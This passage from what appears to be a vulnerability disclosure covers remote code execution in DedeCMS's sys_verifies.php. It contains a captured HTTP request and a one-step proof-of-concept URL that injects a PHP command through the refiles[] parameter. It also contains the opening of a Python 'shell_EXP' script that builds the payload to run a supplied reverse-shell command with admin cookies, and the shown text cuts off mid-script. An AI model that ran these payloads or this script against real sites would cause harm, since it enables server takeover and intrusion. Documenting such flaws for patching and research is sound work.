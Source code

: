 ```http
Origin: http://www.dede.top
Referer: http://www.dede.top/dede/sys_verifies.php?action=getfiles
Pragma: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Content-Length: 43

action=down&curfile=1
```



![image-20250528084804482](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505280848716.png)



### FInal POC

Actually, the final payload is as follows, requiring only a single step. When you send this payload, DedeCMS will automatically trigger a second file request to execute the command.

```
http://www.dede.top/dede/sys_verifies.php?action=getfiles&refiles[]=17${${print`id`}}
```

![image-20250528090510219](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505280905541.png)



### shell_EXP

```python
#!/usr/bin/env python3
import requests
import urllib.parse
import argparse
import sys

def exploit(target_url, cookie_string, reverse_shell_command):
    # Ensure target URL has correct format
    if not target_url.startswith("http"):
        target_url = "http://" + target_url
    if target_url.endswith("/"):
        target_url = target_url[:-1]
    
    # Parse cookies from string
    cookies = {}
    if cookie_string:
        for item in cookie_string.split(';'):
            if item.strip():
                key, value = item.split('=', 1)
                cookies[key.strip()] = value.strip()
    
    # URL encode the command for the payload
    encoded_command = urllib.parse.quote(reverse_shell_command)
    
    # Create the malicious payload
    payload = f"xxx${{${{print%20`{encoded_command}`}}}}"
    
    # Headers
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.3,en;q=0.2",
        "Referer": f"{target_url}/dede/sys_verifies.php?action=update",
        "Upgrade-Insecure-Requests": "1",
```